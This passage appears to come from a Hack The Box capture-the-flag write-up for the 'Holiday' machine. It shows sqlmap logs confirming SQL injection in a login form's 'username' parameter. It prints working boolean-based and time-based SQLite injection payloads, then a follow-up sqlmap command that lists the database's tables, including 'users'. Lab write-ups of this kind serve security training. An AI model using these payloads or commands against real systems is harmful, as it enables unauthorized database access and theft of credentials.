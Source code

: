 ```text
[14:06:44] [INFO] testing 'Generic UNION query (random number) - 41 to 60 columns'
[14:06:45] [INFO] testing 'Generic UNION query (NULL) - 61 to 80 columns'
[14:06:46] [INFO] testing 'Generic UNION query (random number) - 61 to 80 columns'
[14:06:47] [INFO] testing 'Generic UNION query (NULL) - 81 to 100 columns'
[14:06:47] [INFO] testing 'Generic UNION query (random number) - 81 to 100 columns'
[14:06:48] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[14:06:48] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 465 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=admin") OR NOT 3120=3120 AND ("lOLW"="lOLW&password=admin

    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: username=admin") OR 4218=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2)))) AND ("ZgnW"="ZgnW&password=admin
---
[14:06:49] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
```

We have identified the database, now try to get the tables:

```text
root@kali:~/htb/holiday# sqlmap -r login.req --level=5 --risk=3 --tables --dbms=SQLite --threads 10
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.4#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 14:11:12 /2020-06-13/
[14:11:12] [INFO] parsing HTTP request from 'login.req'
[14:11:12] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=admin") OR NOT 3120=3120 AND ("lOLW"="lOLW&password=admin

    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: username=admin") OR 4218=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2)))) AND ("ZgnW"="ZgnW&password=admin
---
[14:11:12] [INFO] testing SQLite
[14:11:12] [INFO] confirming SQLite
[14:11:12] [INFO] actively fingerprinting SQLite
[14:11:12] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[14:11:12] [INFO] fetching tables for database: 'SQLite_masterdb'
[14:11:12] [INFO] fetching number of tables for database 'SQLite_masterdb'
[14:11:12] [INFO] resumed: 5
[14:11:12] [INFO] retrieving the length of query output
[14:11:12] [INFO] resumed: 5
[14:11:12] [INFO] resumed: users
[14:11:12] [INFO] retrieving the length of query output
[14:11:12] [INFO] resumed: 15
[14:11:12] [INFO] resumed: sqlite_sequence
```